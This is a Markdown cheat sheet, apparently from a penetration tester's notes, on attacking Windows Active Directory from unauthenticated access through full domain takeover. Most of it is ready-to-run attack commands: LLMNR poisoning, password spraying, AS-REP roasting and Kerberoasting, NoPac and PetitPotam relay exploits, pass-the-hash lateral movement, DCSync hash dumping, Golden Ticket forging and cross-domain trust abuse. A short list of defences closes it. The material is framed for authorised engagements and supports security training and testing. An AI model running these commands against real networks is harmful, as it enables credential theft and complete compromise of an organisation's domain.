

# Active Directory — Simple Guide

A plain-English version of the slides. Read top-to-bottom, then keep it open during engagements.

---

## 1. What Is Active Directory?

AD is Microsoft's central database for **users, computers, groups, and policies** in a Windows network. One server (the **Domain Controller / DC**) holds the master record (`ntds.dit`) and decides who is allowed to do what.

If you own the DC, you own everything.

### Building Blocks

| Term                          | What it is                                               | Analogy                                     |
| ----------------------------- | -------------------------------------------------------- | ------------------------------------------- |
| **Forest**                    | The whole environment — real security boundary           | The property line / fence                   |
| **Domain**                    | One unit inside the forest with its own users + policies | A floor of a building with its own keycards |
| **OU** (Organizational Unit)  | A folder inside a domain for grouping objects            | An office suite with its own house rules    |
| **GPO** (Group Policy Object) | Rules pushed to OUs (password policy, software, etc.)    | The house rules themselves                  |
| **DC** (Domain Controller)    | Server that runs AD; stores `ntds.dit`                   | The master keychain cabinet                 |
| **KRBTGT**                    | Hidden account whose hash signs all Kerberos tickets     | The owner's invisible-ink pen               |

> **Rule of thumb:** the **forest** is the real boundary, not the domain. Cross-domain trust inside a forest is mostly automatic.

---

## 2. Protocols You'll Touch

| Protocol | Port | What it does | Why you care |
|----------|------|--------------|--------------|
| **DNS** | 53 | Name resolution | Find the DC: `_ldap._tcp.dc._msdcs.<domain>` |
| **Kerberos** | 88 | Ticket-based auth (default since Win2000) | Kerberoasting, AS-REP roast, Golden Ticket |
| **LDAP / LDAPS** | 389 / 636 | Query the directory | User/group/ACL enumeration |
| **Global Catalog** | 3268 | Cross-domain LDAP search | Forest-wide enumeration |
| **SMB** | 445 | File shares + remote admin | Shares, PsExec, SMB relay |
| **RPC** | 135 + dynamic | Remote management | rpcclient, DCOM, EFSRPC (PetitPotam) |
| **WinRM** | 5985 / 5986 | Remote PowerShell | Lateral movement (`evil-winrm`) |
| **NetBIOS / LLMNR** | 137 / 5355 | Legacy name fallback | Poisoning → NetNTLMv2 capture |

### NTLM vs Kerberos — 30 seconds

- **NTLM** = old challenge/response. Catch the response (`Net-NTLMv2`), crack offline with `hashcat -m 5600`. The raw NT hash is **pass-the-hash-able**.
- **Kerberos** = tickets. The DC hands out a **TGT** (signed by KRBTGT), then **TGS** tickets for each service (signed by that service's NT hash).
- **Steal KRBTGT hash → forge any ticket = Golden Ticket.**
- **Crack a TGS offline = Kerberoasting.**
- Clock skew > 5 min = Kerberos breaks.

---

## 3. Attack Procedure (Mindmap)



---

## 4. The Phases — What to Run, What You Get

### Phase 1 — Enumeration (no creds yet)

**Goal:** find the DC, live hosts, valid usernames.

```bash
# Sweep the segment
fping -asgq 172.16.5.0/23

# Scan, fingerprint, find the DC (port 88 = Kerberos = DC)
nmap -sC -sV -p- 172.16.5.5

# Listen passively for LLMNR/NBT-NS broadcasts
sudo responder -I eth0 -A

# Anonymous SMB
rpcclient -U "" -N <target>
enum4linux -a <target>

# Anonymous LDAP
ldapsearch -x -H ldap://<dc> -s base namingcontexts

# Stealthy user enum (Kerberos pre-auth, only logs Event 4768)
kerbrute userenum -d <domain> --dc <dc> users.txt
```

**If you get:**
- A `NetNTLMv2` hash from Responder → crack with `hashcat -m 5600` → Phase 3.
- Anonymous SMB/LDAP works → enumerate users + password policy directly.
- Just usernames → spray in Phase 2.
- Nothing → keep listening, try external recon (LinkedIn, HIBP).

### Phase 2 — First Foothold (still no creds)

**Goal:** turn enumeration into one valid login.

```bash
# Check lockout BEFORE spraying — DOS = engagement over
crackmapexec smb <dc> -u guest -p '' --pass-pol

# Password spray
kerbrute passwordspray -d <domain> --dc <dc> users.txt 'Welcome1'
crackmapexec smb <dc> -u users.txt -p 'Welcome1' --continue-on-success

# AS-REP roast — users with "Do not require Kerberos preauth"
GetNPUsers.py -dc-ip <dc> -usersfile users.txt <domain>/
hashcat -m 18200 hash.txt rockyou.txt
```

**If you get:**
- A cleartext password → Phase 3.
- An NT hash → pass-the-hash, no need to crack.
- An AS-REP hash → crack offline with mode 18200.
- Lockout warning → drop spray to 1–2 per round under threshold.

### Phase 3 — Credentialed Enumeration (have a low-priv user)

**Goal:** map everything reachable, find paths to higher privilege.

```bash
# The brain — collect everything
bloodhound-python -u <user> -p <pass> -ns <dc> -d <domain> -c all

# Or from Windows
.\SharpHound.exe -c All --zipfilename out.zip

# CrackMapExec — the swiss army knife
crackmapexec smb <range> -u <user> -p <pass>          # who can I auth to?
crackmapexec smb <dc> -u <user> -p <pass> --users     # full user list + badpwdcount
crackmapexec smb <dc> -u <user> -p <pass> --groups
crackmapexec smb <dc> -u <user> -p <pass> --shares
crackmapexec smb <range> -u <user> -p <pass> --loggedon-users
crackmapexec smb <range> -u <user> -H <NTHASH>        # pass-the-hash spray

# Spider for creds in shares
smbmap -u <user> -p <pass> -H <dc> -R -A 'web.config|unattend.xml|.kdbx'
```

**Marker to watch for:** `(Pwn3d!)` in CME output = you are local admin on that host.

**Key BloodHound queries to run first:**
- Shortest Path to Domain Admins
- Find all Kerberoastable Accounts
- Find all AS-REP Roastable Accounts
- Computers where Domain Users are Local Admin
- Find Computers with Unsupported OS

### Phase 4 — Privilege Escalation

**Goal:** turn low-priv into Domain Admin (or DCSync rights).

#### 4a. Kerberoasting — service accounts with weak passwords

```bash
# Linux
GetUserSPNs.py -dc-ip <dc> <domain>/<user>:<pass> -request

# Windows
.\Rubeus.exe kerberoast /outfile:hash.txt

# Crack
hashcat -m 13100 hash.txt rockyou.txt   # RC4 (fast, ~70x faster than AES)
hashcat -m 19700 hash.txt rockyou.txt   # AES
```

**If you get:** a service account password. Service accounts are often Domain Admins.

#### 4b. ACL Abuse — chain object permissions

| ACE you have | What you can do |
|--------------|-----------------|
| `GenericAll` | Full control — reset password, add to group, anything |
| `GenericWrite` | Set fake SPN → Kerberoast it |
| `WriteDACL` | Grant yourself any other ACE |
| `WriteOwner` | Take ownership → grant yourself rights |
| `ForceChangePassword` | Reset target's password without knowing the old one |
| `AddMember` | Add yourself to the target group |
| `AllExtendedRights` | Includes ForceChangePassword + DCSync on a DC |
| `DS-Replication-Get-Changes` + `Get-Changes-All` | **DCSync — pull every hash** |

```powershell
# Find what your SID can do
$sid = (Get-DomainUser <user>).objectsid
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

> **Always pass `-ResolveGUIDs`** or the object types come back as raw GUIDs.

#### 4c. CVE One-Shots (low-priv user → Domain Admin)

| CVE | Tool | What it does | Prereq |
|-----|------|--------------|--------|
| **NoPac** (CVE-2021-42278/42287) | `noPac.py` | Rename machine acct → S4U2self as admin | `MachineAccountQuota >= 1` (default 10) |
| **PrintNightmare** (CVE-2021-1675) | `CVE-2021-1675.py` | Spooler loads attacker DLL as SYSTEM | Print Spooler enabled on target |
| **PetitPotam** | `PetitPotam.py` + `ntlmrelayx --adcs` | Coerce DC auth → relay to AD CS → DC cert → TGT → DCSync | AD CS web enrollment exposed |

```bash
# NoPac — instant DA
noPac.py <domain>/<user>:<pass> -dc-ip <dc> -dc-host <dchostname> -shell --impersonate administrator

# PetitPotam → AD CS relay (no creds needed!)
ntlmrelayx.py -t http://<adcs>/certsrv/certfnsh.asp --adcs --template DomainController
python3 PetitPotam.py <attacker-ip> <dc-ip>
```

#### 4d. Lateral Movement (using whatever you cracked)

```bash
# Pass-the-Hash with WinRM
evil-winrm -i <host> -u administrator -H <NT-hash>

# Pass-the-Hash with SMB / PsExec
psexec.py -hashes :<NT-hash> administrator@<host>
crackmapexec smb <range> -u administrator -H <NT-hash> --local-auth   # local admin reuse

# RDP with hash (if Restricted Admin enabled)
xfreerdp /u:admin /pth:<NT-hash> /v:<host>
```

### Phase 5 — Domain Takeover

#### DCSync — pull every hash from the DC

```bash
# Linux (no exec on DC needed)
secretsdump.py -just-dc <domain>/<user>@<dc>

# Windows
mimikatz # lsadump::dcsync /domain:<domain> /user:krbtgt
```

**You now have the KRBTGT NT hash. The kingdom is yours.**

#### Golden Ticket — forge a TGT for any user, valid for 10 years

```bash
# Linux
ticketer.py -nthash <KRBTGT-hash> -domain-sid <DOMAIN-SID> -domain <domain> Administrator
export KRB5CCNAME=Administrator.ccache
secretsdump.py -k -no-pass <dc>

# Windows
mimikatz # kerberos::golden /user:Administrator /domain:<domain> /sid:<DOMAIN-SID> /krbtgt:<KRBTGT-hash> /ptt
```

#### Trust Abuse — child domain → forest root

```bash
# Auto-pwn child to parent
raiseChild.py <child-domain>/<user>:<pass>

# Manual: forge a Golden Ticket with parent Enterprise Admins SID injected
ticketer.py -nthash <CHILD-KRBTGT> -domain-sid <CHILD-SID> \
  -extra-sid <PARENT-SID>-519 \
  -domain <child-domain> hacker
```

> SID Filtering is **off** between parent/child in the same forest → ExtraSids works.
> SID Filtering is **on** for cross-forest trusts → use cross-forest Kerberoasting + password reuse instead.

---

## 5. Decision Tree — "I have X, what now?"

```
Start: nothing
  ├── Wired into the network?
  │     ├── Run Responder           → maybe NetNTLMv2 → crack → low-priv user
  │     └── Sweep + Nmap            → find DC, hosts
  │
  ├── Username list?
  │     ├── Lockout policy known?   → spray Welcome1
  │     │                              → AS-REP roast (no preauth users)
  │     └── Unknown                  → CME --pass-pol first
  │
  ├── Low-priv credential?
  │     ├── BloodHound -c all
  │     ├── CME --shares / --users / --loggedon-users
  │     ├── smbmap -R for creds in shares
  │     ├── Kerberoast every SPN you see
  │     └── Check MachineAccountQuota → NoPac?
  │
  ├── NT hash (from cracked, dumped SAM, or LSASS)?
  │     ├── Pass-the-Hash → evil-winrm / psexec
  │     ├── CME --local-auth -H to spray hash everywhere
  │     └── If KRBTGT → Golden Ticket
  │
  ├── Local admin on a host?
  │     ├── Mimikatz lsadump::sam     → local admin hash (often reused)
  │     ├── sekurlsa::logonpasswords  → cleartext + NT hashes of logged-on users
  │     ├── WDigest registry flip + reboot → cleartext on next logon
  │     └── If a domain admin is logged in → game over, dump their hash
  │
  ├── DCSync rights (Get-Changes + Get-Changes-All)?
  │     └── secretsdump.py -just-dc → KRBTGT + every hash
  │
  └── KRBTGT hash?
        ├── Golden Ticket → persistence as anyone for ~10 years
        └── ExtraSids → Enterprise Admin across the forest
```

---

## 6. Essential Tools — One-Line Summary

| Tool                                                    | What it's for                                                                                                          | Where it runs |
| ------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------- | ------------- |
| **Responder**                                           | LLMNR/NBT-NS poisoning, capture NetNTLMv2                                                                              | Linux         |
| **Nmap**                                                | Port scan, find the DC (port 88)                                                                                       | Linux/Win     |
| **Kerbrute**                                            | Stealthy user enum + password spray (Kerberos pre-auth)                                                                | Linux/Win     |
| **CrackMapExec (CME / NetExec)**                        | Swiss-army for SMB/LDAP/WinRM/MSSQL — sprays, dumps, executes                                                          | Linux         |
| **BloodHound** + **SharpHound** / **bloodhound-python** | Maps AD into a graph; finds attack paths                                                                               | Linux/Win     |
| **Impacket suite**                                      | `secretsdump.py`, `GetUserSPNs.py`, `psexec.py`, `ntlmrelayx.py`, `ticketer.py` — Linux equivalents of Mimikatz/Rubeus | Linux         |
| **Rubeus**                                              | Kerberos abuse on Windows: roast, AS-REP, S4U, PtT                                                                     | Windows       |
| **Mimikatz**                                            | Dump LSASS, SAM, perform DCSync, forge Golden Tickets                                                                  | Windows       |
| **PowerView**                                           | LDAP-based AD enum from PowerShell                                                                                     | Windows       |
| **evil-winrm**                                          | WinRM shell with PtH support                                                                                           | Linux         |
| **smbmap** / **smbclient**                              | Browse shares, find creds in files                                                                                     | Linux         |
| **enum4linux** / **rpcclient**                          | Anonymous SMB/RPC enumeration                                                                                          | Linux         |
| **Hashcat**                                             | Crack everything offline                                                                                               | Linux/Win     |
| **Snaffler**                                            | Color-codes interesting files across all readable shares                                                               | Windows       |

---

## 7. Quick Hashcat Mode Reference

| Mode | Hash type | When you use it |
|------|-----------|-----------------|
| `1000` | NTLM | Pass-the-hash if not, crack to cleartext |
| `5600` | NetNTLMv2 | Captured from Responder |
| `13100` | Kerberos TGS-REP (RC4) | Kerberoasting (preferred — fast) |
| `19700` | Kerberos TGS-REP (AES) | Kerberoasting (slow) |
| `18200` | Kerberos AS-REP (RC4) | AS-REP roast |
| `5500` | NetNTLMv1 | Old environments only |

---

## 8. Five Things to Memorize

1. **Forest > Domain** — the forest is the real security boundary.
2. **KRBTGT hash = Golden Ticket = own the domain forever.**
3. **BloodHound first.** Don't manually walk groups. Let the graph tell you.
4. **Most "attacks" are feature abuse** — Kerberos, ACLs, weak passwords. Patches won't save you.
5. **Check `--pass-pol` before spraying.** Locking out the domain ends the engagement.

---

## 9. Defenses (one-liners to give the client)

- Disable **LLMNR + NBT-NS** via GPO (kills Responder).
- Enforce **SMB signing + LDAP signing** (kills NTLM relay).
- Use **gMSA** for service accounts (240-char rotating passwords kill Kerberoasting).
- Deploy **LAPS** (kills local admin password reuse).
- Set **MachineAccountQuota = 0** (kills NoPac).
- **Disable Print Spooler** on every DC (kills PrintNightmare).
- **Rotate KRBTGT twice** (invalidates Golden Tickets).
- Add sensitive accounts to **Protected Users** group (forces AES, blocks NTLM, no caching).

---

For full details + lab walkthroughs see `AD-PRESENTATION-SLIDES.md` and `ad-enum-attacks/` in this vault.
